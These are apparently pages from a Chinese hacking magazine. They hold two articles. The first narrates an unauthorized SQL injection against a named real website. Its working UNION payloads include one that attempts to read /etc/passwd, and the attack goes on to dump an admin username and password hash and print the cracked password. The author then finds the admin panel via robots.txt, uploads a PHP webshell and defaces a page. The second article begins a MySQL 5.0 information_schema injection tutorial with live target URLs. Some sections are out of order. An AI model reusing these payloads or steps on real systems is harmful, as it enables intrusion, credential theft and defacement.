



查看使用的是什么系统也很简单，就是修改 URL 中目录的大小写，返回正常的话就是 Windows 主机，返回 404 的话就是 Linux。我随便找了个 URL 地址，修改 dictionary 目录中的小写 i 为大写，提交后发现返回了 404，原来使用的是 Linux 系统，如图9。

继续构造 URL：

`http://www.ldoceonline.com/popup/popupmode.php?searchid=12364 unioN all seLecT load_file('/etc/passwd'),2,3,4,5,6,7--`

结果却令人郁闷，原来显示 1 的地方返回了空，如图10。经过试验，使用 into outfile 也不行，看来捷径是走不通了。



那就使用笨方法吧，利用 information_schema 列出表名和列名。结果我却悲哀地发现，group_concat() 不可用，这也就意味着，几百个表我要使用 limit 一一显示出来。构造 URL：

`http://www.ldoceonline.com/popup/popupmode.php?searchid=12364 unioN all seLecT table_name,2,3,4,5,6,7 from information_schema.tables limit 0,1--`

显示出了第一个表，也就是 MySQL 内置的 character_sets 表，如图11。



接下来就是把“limit 0,1”后面的数字逐渐往上加吧。到 87 的时候终于列出了一个有用的表 ldoce_admusr，如图12。这个估计就是管理员的表了吧，我们来看看它里面的列都有哪些，构造 URL：

`http://www.ldoceonline.com/popup/popupmode.php?searchid=12364 unioN all seLecT column_name,2,3,4,5,6,7 from information_schema.columns where table_name='ldoce_admusr' limit 0,1--`

结果如图13所示，果然是管理表。





把管理的表全都列出来后，我们发现了两个有用的表：

# 一个人的战争

admpname 和 admpasswd，接下来我们就开始爆出管理员的账号和密码吧。构造 URL：

`http://www.ldoceonline.com/popup/popup-mode.php?searchid=12364 union all select admname,2,3,4,5,6,7 from ldoce_admusr--`

显示出了管理员的名字 ldoce_manager1，如图14。



图14

我们再来爆出管理员的密码，构造 URL：

`http://www.ldoceonline.com/popup/popup-mode.php?searchid=12364 union all select admpasswd,2,3,4,5,6,7 from ldoce_admusr--`

大家看到了吗，爆出的密码是 `e591e17a3a3928e2c25fba0c56529f3d`，如图15。我兴奋地把密码拿到 cmd5.com 上进行破解，结果却发现这网站是付费的，气得我把 md5 网站的管理员鄙视了一百遍，最后还是找了个朋友用他的账号给我破解的 MD5 密码，密码是 correctin。



图15

| 字段 | 说明 |
|---|---|
| User-agent | 适用于下列规则的漫游器 |
| Disallow | 要拦截的网页 |

我试着在朗文的网站后面加上 robots.txt，果然出现了我想要的东西，如图16：不允许访问的有 ldoce_manage_here！这不正是后台吗？唉，也是，这么隐蔽的后台，能扫描出来才怪呢！

登录进入后台，发现除了语言外和国内的都差不多，可以上传文件。我随便传了个 php 木马上去，发现权限不小，很多目录都可以写。不过我不是来干坏事的，只是检测而已，所以只是修改了对方的 about 页面，告诉他们被检测了而已，如图17。到此，整个检测过程就算完成了，我到底还是成功了！



图16



图17

## 五、又起波澜

按理说破解出了密码就该去后台了，可是我却卡在了这里，啊D怎么也扫描不出后台了，这可怎么办呀？查看图片的属性也没有什么明显的信息来告诉我后台在哪里。我突然想起了 MIAO 给过我一个 wwwscan 的字典，足有 85KB，这么多的内容，该够了吧。我兴冲冲地拿出 wwwscan 开始了耐心的扫描，结果扫描完了 85KB 也没有发现有用的东西，不过令我哭笑不得的是，index.html 文件倒是扫描出了三个。该怎么办呢？都到了这地步自然是不能放弃，先放一放，到别的地方转悠下，回来再说。没事就转到了某黑客论坛上，看见有人正在炫耀他拿 robots.txt 搞下的站，robots！？对啊，我怎么没有想到它呢？

我简单说下 robots.txt。robots.txt 是搜索引擎访问网站的时候要查看的第一个文件。Robots.txt 文件告诉蜘蛛程序在服务器上什么文件是可以被查看的。当一个搜索蜘蛛访问一个站点时，它会首先检查该站点根目录下是否存在 robots.txt，如果存在，搜索机器人就会按照该文件中的内容来确定访问的范围；如果该文件不存在，所有的搜索蜘蛛都将能够访问网站上所有没有被口令保护的页面。

robots.txt 文件必须放置在一个站点的根目录下，而且文件名必须全部小写，最简单的 robots.txt 文件使用两条规则。

## 六、后续

我想，这种黑色幽默式的修改应该不会让他们惊慌到报警的程度吧。果然，当晚管理员发来 email 询问我关于漏洞的事情，我给他详细地解说了一番，最后他给我回了个“good job! thank you”，我心里很受用……受到人家如此褒奖……

而网站那边也大改了一番，robots.txt 删了（我很纳闷，没有它怎么防止搜索引擎蜘蛛爬到后台呢？也许别有他法），插件修改了，所有 `php?id=` 的页面全变成了 `html?q=` 的形式了，不过这样很容易产生跨站。我不是跨站的好手，故而检测跨站这事情留给跨站大牛们来做吧……

## 七、总结

这次的检测给我留下了很多经验教训以及问题，这里再给大家说下：

- 1. 使用工具并不总是好的，可以用工具，但是永远不要过于依赖它们。
- 2. 在普通方法不可用的时候要更多仔细观察，也许注入点就在手边。
- 3. 多学学手工注入的精华，有时候没有它是很难成事的。
- 4. 问题：“html?id=” 的 URL 是怎么写的？是否可以注入？
- 5. 没有 robots.txt 的情况下怎么防止搜索引擎爬虫爬到不该去的地方？

（文章中涉及到的 JSKY、Pangolin，已经收录在了光盘中）

## 浅谈MySQL5.0以上的注入

夜虫儿



在09年第5期的杂志上我曾经详细地写过一篇关于 PHP 程序注入的文章，其中就对 mysql5.0 以上版本的数据库进行了一些介绍，只是限于篇幅，介绍的并不多，也不是太详细，今天我就再详细地介绍一下关于 mysql5.0 以上版本数据库的注入技巧，希望能对大家有所帮助。

我们都知道，通常 asp 程序是跟 access 数据库搭配，而 php 程序则一般是与 mysql 数据库搭配。在注入一个站点的时候，如果整站使用的是一套 asp 程序，那我们一般的步骤都是猜表名、猜列名、猜解字段内容。首先我们要对数据库的结构有一个认识，如图1所示，就是一个数据库的结构，左栏的那些是表名，右栏显示的是 admin 表里面的两个列名（username 和 passwd），至于列内的数据大家可以清楚地看到。



对于这种 asp 程序，一旦我们破解不出表名来，那么对这个注入点也就无计可施了。但是对于使用了 mysql5.0 及以上版本数据库的网站，我们即使猜不出表名也是有办法继续注入下去的，这主要得益于 mysql 中添加的一个名叫 information_schema 的库。利用它，我们就可以爆库、爆表和爆字段。这里所说的爆库可不是爆什么数据库的路径，而是爆出库的名称，大家来看我下面的演示。

首先我们找到一个 php 的注入点 `http://study.that8.com/news.php?id=114129`，可以通过 version() 这个函数来查看数据库的版本号，提交：

`http://study.that8.com/news.php?id=114129%20and%201=2%20union%20select%201,version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21`

结果如图2所示。



可以清楚地看到这个网站使用的数据库版本是 5.0.67，符合我们的爆库需求。这里关于一些怎样判断漏洞、怎样手工检测的过程我就不细讲了，不懂的朋友可以翻看一下去年第5期的杂志，好好温习一下。

我在本地搭建了一个 mysql 数据库的结构，大家可以好好地看下，如图3。在认识了这个结构后我们继续来看下面的步骤，把 2 处替换为 schema_name，然后在后面加上 `from information_schema.SCHEMATA limit 0,1/*` 这条语句，具体的形式就为：

`http://study.feloo.com/news.php?id=114129%20and%201=2%20union%20select%201,schema_name,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19%20from%20information_schema.SCHEMATA%20limit%200,1/*`

提交后如图4所示，成功地爆出了 information_schema 这个库。



# 一个人的战争

我们再来看一下图5，从图中可以看到我这里一共有 3 个库，上面 `limit 0,1/*` 的意思就是爆出第一个数据库的名字。如果要查看第二个数据库名，就依次增加 limit 后面的值。当我们把 0 变成 1 的时候，就可以看到又爆出了一个新的库，如图6。

爆出来的这些库对我们有用的可能没有几个，我们最想要的库自然是存放了管理员用户名和密码的那个库。其实如果单纯地想拿到这个库很简单，我们在前面就可以爆出来。









